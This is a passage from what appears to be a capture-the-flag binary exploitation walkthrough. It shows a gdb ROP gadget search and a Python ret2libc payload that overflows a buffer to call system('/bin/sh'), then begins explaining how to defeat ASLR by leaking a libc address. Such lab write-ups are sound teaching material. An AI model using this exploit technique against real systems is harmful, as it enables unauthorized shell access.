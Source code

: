 ```
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
gdb-peda$ ropsearch "pop rdi" 0x400000           0x401000
Searching for ROP gadget: 'pop rdi' in range: 0x400000 - 0x401000
0x004006d3 : (b'5fc3')	pop rdi; ret
```

This is good because now we can put something on the stack that will be `pop`ed to `RDI`, and then return to an arbitrary address. I will keep in mind that the gadget I found is in a location that is not randomized by ASLR and may be very handy when crafting out final exploit.

Our current exploit:

```python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72
gadget_pop_rdi_ret = ptr(0x4006d3)


system_addr = ptr(0x7ffff7a33440)
binsh_addr= ptr(0x7ffff7b97e9a)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += binsh_addr           # this will be popped to RDI
payload += system_addr          # return here with stack aligned

print payload

```

So far, the exploit works locally, **if of course, we disable ASLR**. So the next step is to think: what are the locations of `system` and `"bin/sh"` going to be on the remote machine? how do we defeat ASLR?


### Defeating ASLR via information leak
When I say "defeating ASLR" I basically mean: "how do I know the base which libc is loaded to every time?" because if I know the base address, I could compute the location of other symbols in libc based on their known offsets. So obviously we cannot know where libc is loaded to right away, we do not have kernel access to the remote machine and we cannot really brute force our way to the right address.

So the solution here is to exploit some chunk of the code that could tell us where some location which we recognize, was loaded.
For example, if we know `puts` was loaded to virtual address `0x100` and we know the offset of puts from the beginning of libc is `0x10`, then it means the base of libc is `0x100 - 0x10 = 0xf0`!


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me